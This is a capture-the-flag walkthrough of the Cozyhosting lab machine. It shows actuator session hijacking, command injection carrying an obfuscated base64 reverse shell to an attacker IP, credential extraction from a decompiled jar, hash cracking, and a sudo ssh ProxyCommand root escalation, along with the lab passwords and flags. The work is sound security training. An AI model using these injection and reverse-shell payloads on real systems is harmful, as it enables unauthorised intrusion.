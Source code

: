 # Cozyhosting - SpringBoot RCE & PostgreSQL Exploitation Walkthrough

This is a full exploitation walkthrough for the Cozyhosting machine. The target is a Linux host running a vulnerable SpringBoot web application with exposed administrative functionality that leads to command injection. The goal is to escalate to user `josh` and finally capture the root flag.

## Target Information

IP Address: 10.10.11.230  
Operating System: Ubuntu Linux  
Open Ports:  
- 22 (SSH)  
- 80 (HTTP - nginx)

## Enumeration

Ran an Nmap scan:

nmap -sC -sV -o nmap 10.10.11.230

Discovered:
- Port 22: OpenSSH 8.9p1 Ubuntu
- Port 80: nginx 1.18.0 (Ubuntu)

Website didn't load initially, so added domain to /etc/hosts:

10.10.11.230 cozyhosting.htb

Reloaded and saw a landing page. Proceeded with directory bruteforcing:

gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://cozyhosting.htb -x php,txt,js

Discovered a login page. Visited an error page and observed a SpringBoot “Whitelabel Error Page”. Confirmed backend is SpringBoot.

Used a SpringBoot-specific wordlist:

ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt

Discovered `/actuator/` endpoints. Explored `/actuator/sessions` and found a valid session ID.

Injected it into the JSESSIONID cookie and gained admin access as user `K.anderson`.

## Exploitation - Command Injection

Captured a request to `/executessh` with BurpSuite. Found a POST request executing remote SSH-like commands.

Injected the following in the username field:

;ping${IFS}-c4${IFS}10.10.14.137;#

Confirmed command injection by receiving ICMP packets.

Then crafted a base64 reverse shell:

echo "bash -i >& /dev/tcp/10.10.14.137/6658 0>&1" | base64 -w 0

Payload:

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzcvNjY1OCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

Received a reverse shell on listener.

## Post-Exploitation - Reverse Engineering .jar

Located the SpringBoot application:

/app/cloudhosting-0.0.1.jar

Downloaded it using:

python3 -m http.server 1111  
wget http://10.10.11.230:1111/cloudhosting-0.0.1.jar

Opened in JD-GUI, found PostgreSQL credentials:

Username: postgres  
Password: Vg&nvzAQ7XxR

Connected to database:

psql -h 127.0.0.1 -U postgres

Connected to database: cozyhosting  
Discovered table with admin hash. Cracked it with John:

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Result:

josh : manchesterunited

## User Flag

Logged in via SSH:

ssh josh@10.10.11.230  
Password: manchesterunited

Captured user flag from:

/home/josh/user.txt  
Flag: 001e788a9504cc6e79d0b70cabecceba

## Privilege Escalation

Checked sudo permissions:

sudo -l

Found: allowed to run `ssh` with ProxyCommand option.

Used GTFObins SSH ProxyCommand escalation:

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

Gained root shell.

## Root Flag

Located at:

/root/root.txt  
Flag: af9a86cc816d3b359ff652e0a67602c4

## Tools Used

- nmap  
- gobuster / ffuf  
- BurpSuite  
- base64 reverse shell  
- JD-GUI  
- PostgreSQL client  
- John the Ripper  
- SSH ProxyCommand exploit

## Summary

- Discovered SpringBoot web app running behind nginx  
- Gained admin access using a leaked session ID from actuator endpoint  
- Exploited command injection to get a reverse shell  
- Extracted credentials from a JAR file and accessed PostgreSQL  
- Cracked hash to SSH as user josh  
- Escalated privileges using SSH ProxyCommand abuse  
- Captured both user and root flags

## Author

Farhanahmad Quraishi
